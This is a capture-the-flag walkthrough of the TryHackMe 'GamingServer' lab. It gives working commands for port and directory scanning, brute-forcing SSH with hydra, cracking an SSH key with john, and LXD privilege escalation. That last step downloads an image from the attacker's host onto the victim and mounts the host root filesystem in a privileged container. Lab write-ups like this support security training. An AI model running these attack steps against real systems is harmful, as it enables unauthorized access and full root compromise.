 # GamingServer

**Room Link:** [https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (11).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>









### SSH port 22

Tried bruteforcing ssh with johns username and the dictionary file we found but it didn't work

**Kali**

```
hydra -l john -P dict.lst ssh://$VICTIM
```



### TCP/80 - HTTP



<figure><img src="../../.gitbook/assets/image (3) (16).png" alt=""><figcaption></figcaption></figure>



### SSH port 22

After finding the key I bruteforced that with the dictionary list found

**Kali**

```
chmod 700 secretKey
/opt/john/ssh2john.py secretKey > id_john.txt
john --wordlist=/root/dict.lst id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i secretKey john@$VICTIM
Password: letmein
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



### Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://10.10.73.204:81/alpine-v3.18-x86_64-20230712_1453.tar.gz
lxc image import ./alpine-v3.18-x86_64-20230712_1453.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (18) (10).png" alt=""><figcaption></figcaption></figure>

















































